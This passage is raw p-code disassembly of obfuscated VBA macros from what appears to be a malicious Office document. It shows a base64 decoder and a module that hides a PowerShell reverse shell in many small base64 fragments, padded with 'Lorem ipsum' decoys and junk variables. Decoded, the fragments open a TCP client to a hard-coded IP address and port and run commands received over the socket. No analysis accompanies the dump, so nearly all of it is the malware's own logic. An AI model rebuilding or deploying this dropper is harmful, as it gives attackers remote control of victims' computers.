' 	LitStr 0x0022 "Khong co gi quy hon doc lap, tu do"
' 	Ld Err 
' 	ArgsMemCall (Call) Raise 0x0003 
' Line #22:
' 	EndIfBlock 
' Line #23:
' 	Ld sString 
' 	LitStr 0x0002 "=="
' 	ArgsLd InStrRev 0x0002 
' 	IfBlock 
' Line #24:
' 	LitDI2 0x0002 
' 	St iPad 
' Line #25:
' 	Ld sString 
' 	LitStr 0x0001 "="
' 	ArgsLd InStrRev 0x0002 
' 	ElseIfBlock 
' Line #26:
' 	LitDI2 0x0001 
' 	St iPad 
' Line #27:
' 	EndIfBlock 
' Line #28:
' 	StartForVariable 
' 	Ld lTemp 
' 	EndForVariable 
' 	LitDI2 0x0000 
' 	LitDI2 0x00FF 
' 	For 
' Line #29:
' 	Ld lTemp 
' 	SelectCase 
' Line #30:
' 	LitDI2 0x0041 
' 	LitDI2 0x005A 
' 	CaseTo 
' 	CaseDone 
' Line #31:
' 	Ld lTemp 
' 	LitDI2 0x0041 
' 	Sub 
' 	Ld lTemp 
' 	ArgsSt bTrans 0x0001 
' Line #32:
' 	LitDI2 0x0061 
' 	LitDI2 0x007A 
' 	CaseTo 
' 	CaseDone 
' Line #33:
' 	Ld lTemp 
' 	LitDI2 0x0047 
' 	Sub 
' 	Ld lTemp 
' 	ArgsSt bTrans 0x0001 
' Line #34:
' 	LitDI2 0x0030 
' 	LitDI2 0x0039 
' 	CaseTo 
' 	CaseDone 
' Line #35:
' 	Ld lTemp 
' 	LitDI2 0x0004 
' 	Add 
' 	Ld lTemp 
' 	ArgsSt bTrans 0x0001 
' Line #36:
' 	LitDI2 0x002B 
' 	Case 
' 	CaseDone 
' Line #37:
' 	LitDI2 0x003E 
' 	Ld lTemp 
' 	ArgsSt bTrans 0x0001 
' Line #38:
' 	LitDI2 0x002F 
' 	Case 
' 	CaseDone 
' Line #39:
' 	LitDI2 0x003F 
' 	Ld lTemp 
' 	ArgsSt bTrans 0x0001 
' Line #40:
' 	EndSelect 
' Line #41:
' 	StartForVariable 
' 	Ld lTemp 
' 	EndForVariable 
' 	NextVar 
' Line #42:
' 	StartForVariable 
' 	Ld lTemp 
' 	EndForVariable 
' 	LitDI2 0x0000 
' 	LitDI2 0x003F 
' 	For 
' Line #43:
' 	Ld lTemp 
' 	Ld cl2Exp6 
' 	Mul 
' 	Ld lTemp 
' 	ArgsSt lPowers6 0x0001 
' Line #44:
' 	Ld lTemp 
' 	Ld cl2Exp12 
' 	Mul 
' 	Ld lTemp 
' 	ArgsSt lPowers12 0x0001 
' Line #45:
' 	Ld lTemp 
' 	Ld cl2Exp18 
' 	Mul 
' 	Ld lTemp 
' 	ArgsSt lPowers18 0x0001 
' Line #46:
' 	StartForVariable 
' 	Ld lTemp 
' 	EndForVariable 
' 	NextVar 
' Line #47:
' 	Ld sString 
' 	Ld vbFromUnicode 
' 	ArgsLd StrConv 0x0002 
' 	St bIn 
' Line #48:
' 	OptionBase 
' 	Ld bIn 
' 	FnUBound 0x0000 
' 	LitDI2 0x0001 
' 	Add 
' 	Paren 
' 	LitDI2 0x0004 
' 	IDiv 
' 	Paren 
' 	LitDI2 0x0003 
' 	Mul 
' 	Paren 
' 	LitDI2 0x0001 
' 	Sub 
' 	Redim bOut 0x0001 (As Variant)
' Line #49:
' 	StartForVariable 
' 	Ld lChar 
' 	EndForVariable 
' 	LitDI2 0x0000 
' 	Ld bIn 
' 	FnUBound 0x0000 
' 	LitDI2 0x0004 
' 	ForStep 
' Line #50:
' 	LineCont 0x0004 1A 00 10 00
' 	Ld lChar 
' 	ArgsLd bIn 0x0001 
' 	ArgsLd bTrans 0x0001 
' 	ArgsLd lPowers18 0x0001 
' 	Ld lChar 
' 	LitDI2 0x0001 
' 	Add 
' 	ArgsLd bIn 0x0001 
' 	ArgsLd bTrans 0x0001 
' 	ArgsLd lPowers12 0x0001 
' 	Add 
' 	Ld lChar 
' 	LitDI2 0x0002 
' 	Add 
' 	ArgsLd bIn 0x0001 
' 	ArgsLd bTrans 0x0001 
' 	ArgsLd lPowers6 0x0001 
' 	Add 
' 	Ld lChar 
' 	LitDI2 0x0003 
' 	Add 
' 	ArgsLd bIn 0x0001 
' 	ArgsLd bTrans 0x0001 
' 	Add 
' 	St lQuad 
' Line #51:
' 	Ld lQuad 
' 	Ld clHighMask 
' 	And 
' 	St lTemp 
' Line #52:
' 	Ld lTemp 
' 	Ld cl2Exp16 
' 	IDiv 
' 	Ld lPos 
' 	ArgsSt bOut 0x0001 
' Line #53:
' 	Ld lQuad 
' 	Ld clMidMask 
' 	And 
' 	St lTemp 
' Line #54:
' 	Ld lTemp 
' 	Ld cl2Exp8 
' 	IDiv 
' 	Ld lPos 
' 	LitDI2 0x0001 
' 	Add 
' 	ArgsSt bOut 0x0001 
' Line #55:
' 	Ld lQuad 
' 	Ld clLowMask 
' 	And 
' 	Ld lPos 
' 	LitDI2 0x0002 
' 	Add 
' 	ArgsSt bOut 0x0001 
' Line #56:
' 	Ld lPos 
' 	LitDI2 0x0003 
' 	Add 
' 	St lPos 
' Line #57:
' 	StartForVariable 
' 	Ld lChar 
' 	EndForVariable 
' 	NextVar 
' Line #58:
' 	Ld bOut 
' 	Ld vbUnicode 
' 	ArgsLd StrConv 0x0002 
' 	St sOut 
' Line #59:
' 	Ld iPad 
' 	If 
' 	BoSImplicit 
' 	Ld sOut 
' 	Ld sOut 
' 	FnLen 
' 	Ld iPad 
' 	Sub 
' 	ArgsLd Left$ 0x0002 
' 	St sOut 
' 	EndIf 
' Line #60:
' 	Ld sOut 
' 	St JERWafGg 
' Line #61:
' 	EndFunc 
' Macros/VBA/Module3 - 46828 bytes
' Line #0:
' 	FuncDefn (Public Function wHJG4cI())
' Line #1:
' 	LitStr 0x0004 "TG9y"
' 	LitStr 0x0004 "ZW0g"
' 	Add 
' 	LitStr 0x0004 "aXBz"
' 	Add 
' 	LitStr 0x0004 "dW0g"
' 	Add 
' 	St FunctionDim 
' Line #2:
' 	LitStr 0x0004 "AGwA"
' 	LitStr 0x0004 "aQBl"
' 	Add 
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	St VoHvjkjwsjn 
' Line #3:
' 	Dim 
' 	VarDefn VJ36vB (As Boolean)
' Line #4:
' 	ArgsCall My3Sf 0x0000 
' Line #5:
' 	LitVarSpecial (True)
' 	St VJ36vB 
' Line #6:
' 	Dim 
' 	VarDefn KkjJywlQ (As Long)
' Line #7:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St KkjJywlQ 
' Line #8:
' 	LitStr 0x0004 "ZG9s"
' 	LitStr 0x0004 "b3Ig"
' 	Add 
' 	LitStr 0x0004 "c2l0"
' 	Add 
' 	LitStr 0x0004 "IGFt"
' 	Add 
' 	St tSgdm 
' Line #9:
' 	LitStr 0x0004 "ZXQg"
' 	LitStr 0x0004 "b2Nj"
' 	Add 
' 	LitStr 0x0004 "YWVj"
' 	Add 
' 	LitStr 0x0004 "YXQs"
' 	Add 
' 	St srODz 
' Line #10:
' 	Dim 
' 	VarDefn p4DvzQSu
' Line #11:
' 	Ld WxVZ9 
' 	FnLen 
' 	St p4DvzQSu 
' Line #12:
' 	Dim 
' 	VarDefn pjhar7 (As Boolean)
' Line #13:
' 	LitStr 0x0004 "dAAg"
' 	LitStr 0x0004 "AD0A"
' 	Add 
' 	LitStr 0x0004 "IABO"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St hLibf 
' Line #14:
' 	LitVarSpecial (True)
' 	St pjhar7 
' Line #15:
' 	Ld PlzT 
' 	Ld VoHvjkjwsjn 
' 	Add 
' 	Ld hLibf 
' 	Add 
' 	St KjxGc 
' Line #16:
' 	LitStr 0x0004 "dwAt"
' 	LitStr 0x0004 "AE8A"
' 	Add 
' 	LitStr 0x0004 "YgBq"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St CdWOS 
' Line #17:
' 	Dim 
' 	VarDefn G3Ro216W (As Long)
' Line #18:
' 	LitStr 0x0004 "IHZv"
' 	LitStr 0x0004 "bHVw"
' 	Add 
' 	LitStr 0x0004 "dGF0"
' 	Add 
' 	LitStr 0x0004 "ZSBl"
' 	Add 
' 	St VkuUa 
' Line #19:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St G3Ro216W 
' Line #20:
' 	Dim 
' 	VarDefn S6GMh
' Line #21:
' 	Ld t4z5nM 
' 	ArgsLd RTrim 0x0001 
' 	St S6GMh 
' Line #22:
' 	LitStr 0x0004 "YwB0"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "UwB5"
' 	Add 
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	St PcmzG 
' Line #23:
' 	Dim 
' 	VarDefn IazBkW (As Double)
' Line #24:
' 	LitR8 0xE79E 0xD1F4 0x9DDB 0x40E2 
' 	ArgsLd Round 0x0001 
' 	St IazBkW 
' Line #25:
' 	LitStr 0x0004 "dSB0"
' 	LitStr 0x0004 "ZW1w"
' 	Add 
' 	LitStr 0x0004 "b3Ig"
' 	Add 
' 	LitStr 0x0004 "Y29u"
' 	Add 
' 	St xQuNL 
' Line #26:
' 	Dim 
' 	VarDefn PitNFfg2k (As Long)
' Line #27:
' 	LitDI4 0xF83C 0x02F2 
' 	UMi 
' 	FnSgn 
' 	St PitNFfg2k 
' Line #28:
' 	LitStr 0x0004 "c2Vj"
' 	LitStr 0x0004 "dGV0"
' 	Add 
' 	LitStr 0x0004 "dXIg"
' 	Add 
' 	LitStr 0x0004 "cXVp"
' 	Add 
' 	St XWzxo 
' Line #29:
' 	Dim 
' 	VarDefn O7WK4 (As String)
' Line #30:
' 	Ld RB125kvm 
' 	Ld vbProperCase 
' 	ArgsLd StrConv 0x0002 
' 	St O7WK4 
' Line #31:
' 	Dim 
' 	VarDefn R5XDIfM (As Boolean)
' Line #32:
' 	LitStr 0x0004 "IHBh"
' 	LitStr 0x0004 "cmlh"
' 	Add 
' 	LitStr 0x0004 "dHVy"
' 	Add 
' 	LitStr 0x0004 "IHZl"
' 	Add 
' 	St wDQuE 
' Line #33:
' 	LitStr 0x0004 "bmlh"
' 	LitStr 0x0004 "bSBj"
' 	Add 
' 	LitStr 0x0004 "b25z"
' 	Add 
' 	LitStr 0x0004 "ZWN0"
' 	Add 
' 	St AGZug 
' Line #34:
' 	Ld CdWOS 
' 	Ld PcmzG 
' 	Add 
' 	St Oinet 
' Line #35:
' 	LitStr 0x0004 "ZXR1"
' 	LitStr 0x0004 "ciBh"
' 	Add 
' 	LitStr 0x0004 "bGlx"
' 	Add 
' 	LitStr 0x0004 "dWEg"
' 	Add 
' 	St wGrQx 
' Line #36:
' 	Ld KjxGc 
' 	Ld Oinet 
' 	Add 
' 	St xiuKi 
' Line #37:
' 	LitStr 0x0004 "dABl"
' 	LitStr 0x0004 "AG0A"
' 	Add 
' 	LitStr 0x0004 "LgBO"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St DIKyl 
' Line #38:
' 	LitVarSpecial (True)
' 	St R5XDIfM 
' Line #39:
' 	LitStr 0x0004 "YWxp"
' 	LitStr 0x0004 "cXVp"
' 	Add 
' 	LitStr 0x0004 "cCBm"
' 	Add 
' 	LitStr 0x0004 "dWdp"
' 	Add 
' 	St JGxJk 
' Line #40:
' 	Dim 
' 	VarDefn QYq4uXhbU (As Double)
' Line #41:
' 	LitR8 0xA2D3 0xECD1 0x5B08 0x40E4 
' 	FnInt 
' 	St QYq4uXhbU 
' Line #42:
' 	Dim 
' 	VarDefn Vjmp7t8C (As Byte)
' Line #43:
' 	LitStr 0x0004 "dAAu"
' 	LitStr 0x0004 "AFMA"
' 	Add 
' 	LitStr 0x0004 "bwBj"
' 	Add 
' 	LitStr 0x0004 "AGsA"
' 	Add 
' 	St bbkDJ 
' Line #44:
' 	LitDI2 0x004B 
' 	St Vjmp7t8C 
' Line #45:
' 	LitStr 0x0004 "YXQg"
' 	LitStr 0x0004 "Y29u"
' 	Add 
' 	LitStr 0x0004 "c2Vj"
' 	Add 
' 	LitStr 0x0004 "dGV0"
' 	Add 
' 	St jPHmg 
' Line #46:
' 	LitStr 0x0004 "ZQB0"
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	LitStr 0x0004 "LgBU"
' 	Add 
' 	LitStr 0x0004 "AEMA"
' 	Add 
' 	St xUbhD 
' Line #47:
' 	LitStr 0x0004 "UABD"
' 	LitStr 0x0004 "AGwA"
' 	Add 
' 	LitStr 0x0004 "aQBl"
' 	Add 
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	St MYJxz 
' Line #48:
' 	LitStr 0x0004 "dXIg"
' 	LitStr 0x0004 "ZG9s"
' 	Add 
' 	LitStr 0x0004 "b3Jl"
' 	Add 
' 	LitStr 0x0004 "IGRl"
' 	Add 
' 	St JMKjw 
' Line #49:
' 	Dim 
' 	VarDefn XR2Nmb (As String)
' Line #50:
' 	LitStr 0x0004 "c2Vy"
' 	LitStr 0x0004 "dW50"
' 	Add 
' 	LitStr 0x0004 "LiBB"
' 	Add 
' 	LitStr 0x0004 "bGlx"
' 	Add 
' 	St ENUJX 
' Line #51:
' 	Ld DIKyl 
' 	Ld bbkDJ 
' 	Add 
' 	Ld xUbhD 
' 	Add 
' 	Ld MYJxz 
' 	Add 
' 	St PUSES 
' Line #52:
' 	Dim 
' 	VarDefn cp4MKrP
' Line #53:
' 	Ld xiuKi 
' 	Ld PUSES 
' 	Add 
' 	St OXtYC 
' Line #54:
' 	LitStr 0x0004 "dAAo"
' 	LitStr 0x0004 "ACcA"
' 	Add 
' 	LitStr 0x0004 "MQA5"
' 	Add 
' 	LitStr 0x0004 "ADIA"
' 	Add 
' 	St tRTso 
' Line #55:
' 	LitStr 0x0001 "6"
' 	ArgsLd AscW 0x0001 
' 	St cp4MKrP 
' Line #56:
' 	Dim 
' 	VarDefn VYM04Zge (As Single)
' Line #57:
' 	LitStr 0x0004 "dWlw"
' 	LitStr 0x0004 "IGVh"
' 	Add 
' 	LitStr 0x0004 "IGFt"
' 	Add 
' 	LitStr 0x0004 "ZXQg"
' 	Add 
' 	St hUgpd 
' Line #58:
' 	LitR8 0x2CD3 0xBE4F 0x38D3 0x40E2 
' 	FnSgn 
' 	St VYM04Zge 
' Line #59:
' 	LitStr 0x0004 "cGFy"
' 	LitStr 0x0004 "aWF0"
' 	Add 
' 	LitStr 0x0004 "dXIg"
' 	Add 
' 	LitStr 0x0004 "Y3Vs"
' 	Add 
' 	St XrWag 
' Line #60:
' 	LitStr 0x0004 "LgAx"
' 	LitStr 0x0004 "ADYA"
' 	Add 
' 	LitStr 0x0004 "OAAu"
' 	Add 
' 	LitStr 0x0004 "ADQA"
' 	Add 
' 	St Ynbfg 
' Line #61:
' 	LitStr 0x0004 "cGEg"
' 	LitStr 0x0004 "ZXN0"
' 	Add 
' 	LitStr 0x0004 "IGNp"
' 	Add 
' 	LitStr 0x0004 "bGx1"
' 	Add 
' 	St XGtDu 
' Line #62:
' 	Dim 
' 	VarDefn djaSGRFZI (As Integer)
' Line #63:
' 	LitStr 0x0004 "bSBk"
' 	LitStr 0x0004 "b2xv"
' 	Add 
' 	LitStr 0x0004 "cmUu"
' 	Add 
' 	LitStr 0x0004 "IEVu"
' 	Add 
' 	St BpFXG 
' Line #64:
' 	LitDI2 0x05EC 
' 	FnSgn 
' 	St djaSGRFZI 
' Line #65:
' 	Dim 
' 	VarDefn q1f0qCp (As Single)
' Line #66:
' 	LitStr 0x0004 "aW0g"
' 	LitStr 0x0004 "ZXNz"
' 	Add 
' 	LitStr 0x0004 "ZSBw"
' 	Add 
' 	LitStr 0x0004 "YXJp"
' 	Add 
' 	St lEUoc 
' Line #67:
' 	LitR8 0x8AD2 0x60F3 0x533F 0x40AF 
' 	ArgsLd Round 0x0001 
' 	St q1f0qCp 
' Line #68:
' 	LitStr 0x0004 "OQAu"
' 	LitStr 0x0004 "ADUA"
' 	Add 
' 	LitStr 0x0004 "NAAn"
' 	Add 
' 	LitStr 0x0004 "ACwA"
' 	Add 
' 	St snfir 
' Line #69:
' 	Dim 
' 	VarDefn hiIHp (As Byte)
' Line #70:
' 	LitStr 0x0004 "NAA5"
' 	LitStr 0x0004 "ADUA"
' 	Add 
' 	LitStr 0x0004 "MwAp"
' 	Add 
' 	LitStr 0x0004 "ADsA"
' 	Add 
' 	St lZTlp 
' Line #71:
' 	LitDI2 0x00C0 
' 	St hiIHp 
' Line #72:
' 	Dim 
' 	VarDefn K8KJB
' Line #73:
' 	LitStr 0x0001 "W"
' 	ArgsLd Asc 0x0001 
' 	St K8KJB 
' Line #74:
' 	LitStr 0x0004 "JABz"
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	LitStr 0x0004 "cgBl"
' 	Add 
' 	LitStr 0x0004 "AGEA"
' 	Add 
' 	St lnUCu 
' Line #75:
' 	Dim 
' 	VarDefn zUNgPs (As String)
' Line #76:
' 	LitStr 0x0001 "1"
' 	ArgsLd Val 0x0001 
' 	St zUNgPs 
' Line #77:
' 	LitStr 0x0004 "YXR1"
' 	LitStr 0x0004 "ciBx"
' 	Add 
' 	LitStr 0x0004 "dWlz"
' 	Add 
' 	LitStr 0x0004 "IGFt"
' 	Add 
' 	St TmvWE 
' Line #78:
' 	LitStr 0x0004 "bQAg"
' 	LitStr 0x0004 "AD0A"
' 	Add 
' 	LitStr 0x0004 "IAAk"
' 	Add 
' 	LitStr 0x0004 "AGMA"
' 	Add 
' 	St ktUlb 
' Line #79:
' 	Dim 
' 	VarDefn gcAoi (As Single)
' Line #80:
' 	LitR8 0x24DF 0x0903 0x2855 0x40ED 
' 	ArgsLd Round 0x0001 
' 	St gcAoi 
' Line #81:
' 	LitStr 0x0004 "ZXQg"
' 	LitStr 0x0004 "ZXN0"
' 	Add 
' 	LitStr 0x0004 "IGFs"
' 	Add 
' 	LitStr 0x0004 "aXF1"
' 	Add 
' 	St gjbMI 
' Line #82:
' 	LitStr 0x0004 "YSBj"
' 	LitStr 0x0004 "b21t"
' 	Add 
' 	LitStr 0x0004 "b2Rv"
' 	Add 
' 	LitStr 0x0004 "IGV4"
' 	Add 
' 	St fymIg 
' Line #83:
' 	Dim 
' 	VarDefn d4Uvh5sfd (As Double)
' Line #84:
' 	LitStr 0x0004 "bABp"
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	LitStr 0x0004 "bgB0"
' 	Add 
' 	LitStr 0x0004 "AC4A"
' 	Add 
' 	St BVPgh 
' Line #85:
' 	LitStr 0x0004 "RwBl"
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	LitStr 0x0004 "UwB0"
' 	Add 
' 	LitStr 0x0004 "AHIA"
' 	Add 
' 	St KPYsX 
' Line #86:
' 	LitR8 0xBF8E 0x0B1A 0xEF3F 0x40C7 
' 	St d4Uvh5sfd 
' Line #87:
' 	Ld tRTso 
' 	Ld Ynbfg 
' 	Add 
' 	Ld snfir 
' 	Add 
' 	Ld lZTlp 
' 	Add 
' 	St YTMgo 
' Line #88:
' 	Ld lnUCu 
' 	Ld ktUlb 
' 	Add 
' 	Ld BVPgh 
' 	Add 
' 	Ld KPYsX 
' 	Add 
' 	St gHgBO 
' Line #89:
' 	Dim 
' 	VarDefn IdLryRE (As Single)
' Line #90:
' 	LitStr 0x0004 "IG51"
' 	LitStr 0x0004 "bGxh"
' 	Add 
' 	LitStr 0x0004 "IGFs"
' 	Add 
' 	LitStr 0x0004 "aXF1"
' 	Add 
' 	St bFOER 
' Line #91:
' 	LitStr 0x0004 "YSBl"
' 	LitStr 0x0004 "c3Qg"
' 	Add 
' 	LitStr 0x0004 "b2Nj"
' 	Add 
' 	LitStr 0x0004 "YWVj"
' 	Add 
' 	St ijanE 
' Line #92:
' 	LitR8 0xBC41 0x48DE 0x4CC1 0x40E3 
' 	St IdLryRE 
' Line #93:
' 	Dim 
' 	VarDefn neuwL902 (As Boolean)
' Line #94:
' 	LitVarSpecial (True)
' 	St neuwL902 
' Line #95:
' 	Dim 
' 	VarDefn hjbkVMY5Q (As Integer)
' Line #96:
' 	LitDI2 0x2933 
' 	UMi 
' 	FnSgn 
' 	St hjbkVMY5Q 
' Line #97:
' 	Ld OXtYC 
' 	Ld YTMgo 
' 	Add 
' 	Ld gHgBO 
' 	Add 
' 	St yPBRZ 
' Line #98:
' 	Dim 
' 	VarDefn BKQimPe (As Boolean)
' Line #99:
' 	LitVarSpecial (False)
' 	St BKQimPe 
' Line #100:
' 	LitStr 0x0004 "ZQBh"
' 	LitStr 0x0004 "AG0A"
' 	Add 
' 	LitStr 0x0004 "KAAp"
' 	Add 
' 	LitStr 0x0004 "ADsA"
' 	Add 
' 	St JCRiY 
' Line #101:
' 	LitStr 0x0004 "YXQg"
' 	LitStr 0x0004 "bm9u"
' 	Add 
' 	LitStr 0x0004 "LiBO"
' 	Add 
' 	LitStr 0x0004 "aXNp"
' 	Add 
' 	St VPccP 
' Line #102:
' 	Dim 
' 	VarDefn ophN8q (As Single)
' Line #103:
' 	LitR8 0x33F8 0x1991 0x0647 0x40C9 
' 	FnInt 
' 	St ophN8q 
' Line #104:
' 	Dim 
' 	VarDefn MMLcDS (As Integer)
' Line #105:
' 	LitDI2 0x560D 
' 	FnSgn 
' 	St MMLcDS 
' Line #106:
' 	LitStr 0x0004 "IGVu"
' 	LitStr 0x0004 "aW0g"
' 	Add 
' 	LitStr 0x0004 "Y3Vs"
' 	Add 
' 	LitStr 0x0004 "cGEg"
' 	Add 
' 	St LgTsg 
' Line #107:
' 	Dim 
' 	VarDefn VZymHn (As Single)
' Line #108:
' 	LitStr 0x0004 "YWxp"
' 	LitStr 0x0004 "cXVh"
' 	Add 
' 	LitStr 0x0004 "IHJl"
' 	Add 
' 	LitStr 0x0004 "cHJl"
' 	Add 
' 	St ixfER 
' Line #109:
' 	LitStr 0x0004 "aGVu"
' 	LitStr 0x0004 "ZGVy"
' 	Add 
' 	LitStr 0x0004 "aXQg"
' 	Add 
' 	LitStr 0x0004 "ZnVn"
' 	Add 
' 	St sMZhB 
' Line #110:
' 	LitR8 0x0D35 0x3AE4 0x9086 0x40B2 
' 	St VZymHn 
' Line #111:
' 	Dim 
' 	VarDefn lnSUl (As Integer)
' Line #112:
' 	LitDI2 0x09A8 
' 	UMi 
' 	FnSgn 
' 	St lnSUl 
' Line #113:
' 	LitStr 0x0004 "WwBi"
' 	LitStr 0x0004 "AHkA"
' 	Add 
' 	LitStr 0x0004 "dABl"
' 	Add 
' 	LitStr 0x0004 "AFsA"
' 	Add 
' 	St SuVlh 
' Line #114:
' 	Dim 
' 	VarDefn VW0kh (As String)
' Line #115:
' 	LitStr 0x0004 "XQBd"
' 	LitStr 0x0004 "ACQA"
' 	Add 
' 	LitStr 0x0004 "YgB5"
' 	Add 
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	St KPtfW 
' Line #116:
' 	Ld DDy2H 
' 	Ld vbUpperCase 
' 	ArgsLd StrConv 0x0002 
' 	St VW0kh 
' Line #117:
' 	LitStr 0x0004 "aWF0"
' 	LitStr 0x0004 "IG1h"
' 	Add 
' 	LitStr 0x0004 "Z25h"
' 	Add 
' 	LitStr 0x0004 "IG1p"
' 	Add 
' 	St XBmcg 
' Line #118:
' 	Dim 
' 	VarDefn GjlhPx6wR (As Integer)
' Line #119:
' 	LitStr 0x0004 "ZQBz"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "PQAg"
' 	Add 
' 	LitStr 0x0004 "ADAA"
' 	Add 
' 	St kkyGw 
' Line #120:
' 	LitStr 0x0004 "bmlt"
' 	LitStr 0x0004 "IG5p"
' 	Add 
' 	LitStr 0x0004 "c2kg"
' 	Add 
' 	LitStr 0x0004 "bWFn"
' 	Add 
' 	St WSaKN 
' Line #121:
' 	LitDI2 0x32E9 
' 	UMi 
' 	FnSgn 
' 	St GjlhPx6wR 
' Line #122:
' 	Dim 
' 	VarDefn CKb98ar (As Double)
' Line #123:
' 	LitR8 0x04B4 0xC2F8 0x71B8 0x40E3 
' 	ArgsLd Val 0x0001 
' 	St CKb98ar 
' Line #124:
' 	Dim 
' 	VarDefn nBRLw5Ecl (As String)
' Line #125:
' 	LitStr 0x0004 "LgAu"
' 	LitStr 0x0004 "ADYA"
' 	Add 
' 	LitStr 0x0004 "NQA1"
' 	Add 
' 	LitStr 0x0004 "ADMA"
' 	Add 
' 	St eDgkE 
' Line #126:
' 	LitStr 0x0001 "I"
' 	ArgsLd AscB 0x0001 
' 	St nBRLw5Ecl 
' Line #127:
' 	LitStr 0x0004 "NQB8"
' 	LitStr 0x0004 "ACUA"
' 	Add 
' 	LitStr 0x0004 "ewAw"
' 	Add 
' 	LitStr 0x0004 "AH0A"
' 	Add 
' 	St ZDxKv 
' Line #128:
' 	Dim 
' 	VarDefn uUbHdia3S (As Long)
' Line #129:
' 	LitStr 0x0004 "OwB3"
' 	LitStr 0x0004 "AGgA"
' 	Add 
' 	LitStr 0x0004 "aQBs"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St mRnsY 
' Line #130:
' 	LitStr 0x0004 "KAAo"
' 	LitStr 0x0004 "ACQA"
' 	Add 
' 	LitStr 0x0004 "aQAg"
' 	Add 
' 	LitStr 0x0004 "AD0A"
' 	Add 
' 	St YvOYT 
' Line #131:
' 	LitStr 0x0004 "bmEg"
' 	LitStr 0x0004 "bGFi"
' 	Add 
' 	LitStr 0x0004 "b3J1"
' 	Add 
' 	LitStr 0x0004 "bSBl"
' 	Add 
' 	St CniQp 
' Line #132:
' 	Ld JCRiY 
' 	Ld SuVlh 
' 	Add 
' 	Ld KPtfW 
' 	Add 
' 	Ld kkyGw 
' 	Add 
' 	Ld eDgkE 
' 	Add 
' 	Ld ZDxKv 
' 	Add 
' 	St RKRwk 
' Line #133:
' 	LitDI4 0x4242 0x6999 
' 	UMi 
' 	FnSgn 
' 	St uUbHdia3S 
' Line #134:
' 	Dim 
' 	VarDefn Tpx0937hq (As Byte)
' Line #135:
' 	LitDI2 0x005D 
' 	St Tpx0937hq 
' Line #136:
' 	Dim 
' 	VarDefn rUfBh5 (As Byte)
' Line #137:
' 	LitDI2 0x00E4 
' 	St rUfBh5 
' Line #138:
' 	Dim 
' 	VarDefn mDfIxqylk (As Single)
' Line #139:
' 	LitStr 0x0004 "bGl0"
' 	LitStr 0x0004 "IGV4"
' 	Add 
' 	LitStr 0x0004 "Y2Vw"
' 	Add 
' 	LitStr 0x0004 "dGV1"
' 	Add 
' 	St oWvfR 
' Line #140:
' 	LitR8 0x43BB 0x433E 0xE949 0x40EB 
' 	FnInt 
' 	St mDfIxqylk 
' Line #141:
' 	LitStr 0x0004 "ciBj"
' 	LitStr 0x0004 "dWxw"
' 	Add 
' 	LitStr 0x0004 "YSBh"
' 	Add 
' 	LitStr 0x0004 "bWV0"
' 	Add 
' 	St kcKvX 
' Line #142:
' 	Ld RKRwk 
' 	Ld mRnsY 
' 	Add 
' 	Ld YvOYT 
' 	Add 
' 	St ElVRzdJ 
' Line #143:
' 	Dim 
' 	VarDefn aPs2IQrh (As Long)
' Line #144:
' 	LitDI4 0xB11A 0x56AE 
' 	UMi 
' 	St aPs2IQrh 
' Line #145:
' 	Dim 
' 	VarDefn kopVl8dn (As String)
' Line #146:
' 	LitStr 0x0004 "IAAk"
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	LitStr 0x0004 "dABy"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St ltY2ht 
' Line #147:
' 	Ld vbNullString 
' 	St kopVl8dn 
' Line #148:
' 	Dim 
' 	VarDefn f4WmO (As Double)
' Line #149:
' 	LitStr 0x0004 "YQBt"
' 	LitStr 0x0004 "AC4A"
' 	Add 
' 	LitStr 0x0004 "UgBl"
' 	Add 
' 	LitStr 0x0004 "AGEA"
' 	Add 
' 	St wAoFe 
' Line #150:
' 	LitR8 0x27C7 0x18ED 0x496E 0x40EE 
' 	FnSgn 
' 	St f4WmO 
' Line #151:
' 	Dim 
' 	VarDefn cCdjUFDJ (As Single)
' Line #152:
' 	LitR8 0x39FB 0xF000 0xDB40 0x40EB 
' 	St cCdjUFDJ 
' Line #153:
' 	Dim 
' 	VarDefn VCms6lt (As Double)
' Line #154:
' 	LitStr 0x0004 "IGZ1"
' 	LitStr 0x0004 "Z2lh"
' 	Add 
' 	LitStr 0x0004 "dCBl"
' 	Add 
' 	LitStr 0x0004 "bmlt"
' 	Add 
' 	St NYSDI 
' Line #155:
' 	LitStr 0x0004 "IHV0"
' 	LitStr 0x0004 "IGlk"
' 	Add 
' 	LitStr 0x0004 "IGNv"
' 	Add 
' 	LitStr 0x0004 "bnNl"
' 	Add 
' 	St Yyard 
' Line #156:
' 	LitStr 0x0004 "ZAAo"
' 	LitStr 0x0004 "ACQA"
' 	Add 
' 	LitStr 0x0004 "YgB5"
' 	Add 
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	St VpwGN 
' Line #157:
' 	LitR8 0xCA6F 0x5847 0xBD33 0x40E5 
' 	ArgsLd Round 0x0001 
' 	St VCms6lt 
' Line #158:
' 	LitStr 0x0004 "ZQBz"
' 	LitStr 0x0004 "ACwA"
' 	Add 
' 	LitStr 0x0004 "IAAw"
' 	Add 
' 	LitStr 0x0004 "ACwA"
' 	Add 
' 	St UEsxN 
' Line #159:
' Line #160:
' 	LitStr 0x0004 "IAAk"
' 	LitStr 0x0004 "AGIA"
' 	Add 
' 	LitStr 0x0004 "eQB0"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St wDmOx 
' Line #161:
' 	Dim 
' 	VarDefn dJWXqHeUE (As Byte)
' Line #162:
' 	Ld ltY2ht 
' 	Ld wAoFe 
' 	Add 
' 	Ld VpwGN 
